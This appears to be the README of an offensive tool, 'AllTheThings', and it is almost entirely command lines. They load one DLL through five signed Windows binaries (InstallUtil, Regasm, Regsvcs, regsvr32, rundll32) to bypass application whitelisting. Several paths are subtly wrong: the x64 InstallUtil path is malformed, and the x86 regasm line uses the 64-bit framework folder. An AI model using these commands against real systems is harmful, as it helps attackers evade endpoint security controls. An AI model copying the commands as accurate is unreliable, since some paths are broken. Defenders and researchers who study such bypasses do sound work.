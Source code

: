 # AllTheThings

###Includes 5 Known Application Whitelisting/ Application Control Bypass Techniques in One File.

###1. InstallUtil.exe

###2. Regasm.exe

###3. Regsvcs.exe

###4. regsvr32.exe

###5. rundll32.exe



#Usage:
##1. 
    x86 - C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll

    x64 - C:\Windows\Microsoft.NET\Framework\v4.0.3031964\InstallUtil.exe /logfile= /LogToConsole=false /U AllTheThings.dll
##2. 

    x86 C:\Windows\Microsoft.NET\Framework\v4.0.30319\regsvcs.exe AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regsvcs.exe AllTheThings.dll
##3. 

    x86 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

    x64 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\regasm.exe /U AllTheThings.dll

##4. 

    regsvr32 /s  /u AllTheThings.dll -->Calls DllUnregisterServer

    regsvr32 /s AllTheThings.dll --> Calls DllRegisterServer
    
##5. 

    rundll32 AllTheThings.dll,EntryPoint
